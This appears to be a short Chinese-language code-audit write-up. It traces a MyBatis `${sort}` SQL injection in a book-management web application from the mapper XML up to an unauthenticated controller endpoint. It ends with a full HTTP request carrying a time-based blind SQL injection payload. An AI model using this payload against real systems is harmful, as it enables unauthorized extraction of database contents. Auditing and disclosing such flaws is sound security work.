 首先在 `src\main\resources\mybatis\mapping\BookMapper.xml` 中发现 `${sort}` ，存在 sql 注入：

![image-20250412140005967](image-20250412140005967.png)

向上跟踪到 Dao 层：

![image-20250412140124919](image-20250412140124919.png)

继续跟踪到 Service 层：

![image-20250412140225533](image-20250412140225533.png)

跟踪到 Controller 层：

![image-20250412140317967](image-20250412140317967.png)

该接口不存在鉴权，因此存在前台sql注入，payload：

```
GET /book/searchByPage?sort=if(SUBSTR(DATABASE(),1,1)='n',sleep(1),1) HTTP/1.1
Host: 192.168.111.71:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.6832.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.111.71:8080/book/bookclass.html?k=111111
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "(Not(A:Brand";v="99", "Google Chrome";v="134", "Chromium";v="134"
sec-ch-ua-full-version-list: "(Not(A:Brand";v="99.0.0.0", "Google Chrome";v="134", "Chromium";v="134"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
Connection: close


```

![image-20250412140530992](image-20250412140530992.png)